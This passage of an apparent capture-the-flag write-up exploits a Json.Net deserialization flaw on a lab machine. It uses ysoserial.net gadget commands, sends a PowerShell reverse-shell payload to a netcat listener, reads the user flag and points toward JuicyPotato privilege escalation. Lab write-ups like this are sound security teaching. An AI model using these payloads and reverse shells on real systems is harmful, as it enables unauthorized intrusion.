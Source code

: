 Classes and objects that enable arbitary code execution are called gadgets. Fortunately, no manual labor is required as there exists a tool to create these kinds of JSON payloads: [ysoserial.net](https://github.com/pwntester/ysoserial.net). I compiled the project on my Windows host and explored my objects. The program supports multiple gadgets, two of which are compatible with Json.Net. I created a simple payload that pings my local machine.

```text
PS> .\ysoserial.exe -g WindowsIdentity -f Json.Net -c "ping -n 4 10.10.##.##" -o base64
ewogICAgICAgICAgICAgICAgICAgICckdHlwZSc6ICdTeXN0ZW0uU2VjdXJpdHkuUHJpbm...
```

I sent the payload to the `/api/Accounts` endpoint and captured incoming traffic, and after a little while I was pinged by the remote machine. I grabbed a PowerShell reverse shell from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) and fed it into ysoserial.net. 

```text
PS> cat payload.ps1 | .\ysoserial.exe -g WindowsIdentity -f Json.Net -s -o base64
ewogICAgICAgICAgICAgICAgICAgICckdHlwZSc6ICdTeXN0ZW0uU2VjdXJpdHkuUHJpbm...
```

```text
kali@kali:~$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.##.##] from (UNKNOWN) [10.10.10.158] 49908
whoami
json\userpool
```

And after some trial and error, I found myself in the remote machine. There's two user accounts: `superadmin` and `userpool`. Navigating to the desktop of `userpool` provides the user flag.

```text
PS C:\Users\userpool\Desktop> dir       


    Directory: C:\Users\userpool\Desktop


Mode                LastWriteTime     Length Name

----                -------------     ------ ----

-a---         5/22/2019   5:07 PM         32 user.txt


PS C:\Users\userpool\Desktop> cat user.txt
34459###########################
```

### Abusing the golden privileges

The machine is running on Windows Server 2012. Checking the privileges of the `userpool` account shows that the account has the impersonation privilege. This means that I could use [JuicyPotato](https://github.com/ohpe/juicy-potato) for privilege escalation.
